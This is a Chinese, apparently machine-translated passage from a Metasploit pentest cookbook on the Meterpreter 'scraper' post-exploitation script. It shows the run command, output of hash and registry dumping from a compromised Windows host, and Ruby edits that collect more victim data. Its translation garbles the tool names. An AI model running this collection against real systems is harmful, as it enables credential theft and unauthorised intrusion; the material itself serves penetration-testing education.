 # 使用刮板 MeterMeter 脚本

到目前为止，我们了解了几个 MeterMeter 命令。在这里，我们将看一看一个重要的 MeterMeter 脚本，它可以帮助我们更深入地探索我们的目标。下一章将详细介绍 MeterMeter 脚本，因此这里我们将重点介绍如何使用该脚本。在渗透测试期间，您可能需要很多时间来挖掘目标的信息。因此，对于渗透测试人员来说，有一个有用信息的本地备份非常方便，这样即使目标失败，他们仍然有信息要处理。它还使得与其他测试人员共享信息变得容易。铲运机为我们完成了这项任务。

## 准备好了吗

scraper meterpeter 脚本可以挖掘出大量关于受害目标的信息，例如注册表信息、密码哈希和网络信息，并将其本地存储在测试人员的机器上。

为了使用 MeterMeter 在目标上执行 Ruby 脚本，我们可以使用 `run`命令。执行 `run scraper -h`命令将列出我们可以通过脚本传递的各种可用参数。让我们继续分析如何在本地下载信息。

## 怎么做。。。

脚本在执行后会自动执行所有操作。它在 `/root/.msf4/logs/scripts/scraper`下创建一个目录，保存所有文件。您可能会在脚本执行过程中注意到一个错误，这可能是因为命令可能无法在目标上执行（命令行输出已被缩短以适应）：

```
meterpreter > run scraper
[*] New session on 192.168.56.1:4232...
[*] Gathering basic system information...
[*] Error dumping hashes: Rex::Post::Meterpreter::RequestError priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU (C:\Users\DARKLORD\AppData\Local\Temp\UKWKdpIb.reg) 
```

脚本会自动下载信息并将其保存在目标文件夹中。让我们看一下源代码，以分析是否可以根据需要进行一些更改。

## 它是如何工作的。。。

`scraper.rb`的源代码在 `/pentest/exploits/framework3/scripts/meterpreter`下。

Ruby 编码经验可以帮助您编辑脚本以添加自己的功能。我们可以通过编辑以下行更改下载位置：

```
logs = ::File.join(Msf::Config.log_directory, 'scripts','scraper', host + "_" + Time.now.strftime("%Y%m%d.%M%S")+sprintf("%.5d",rand(100000)) ) 
```

假设您也想获得可用进程列表的结果，那么您只需在程序主体中添加以下代码行：

```
::File.open(File.join(logs, "process.txt"), "w") do |fd|
fd.puts(m_exec(client, "tasklist"))
end 
```

通过使用一点 Ruby 语言和代码重用，您可以轻松地根据需要修改代码。

## 还有更多。。。

让我们了解另一个 MeterMeter 脚本，该脚本可用于从目标机器收集信息。

### 使用 winenum.rb

`winenum.rb`是另一个 MeterMeter 脚本，可以帮助您收集有关目标的信息并在本地下载。其工作原理与 `scraper.rb`类似。您也可以尝试此脚本，看看它可以提供哪些额外信息。脚本可在以下位置找到：

`/pentest/exploits/framework3/scripts/meterpreter/winenum.rb`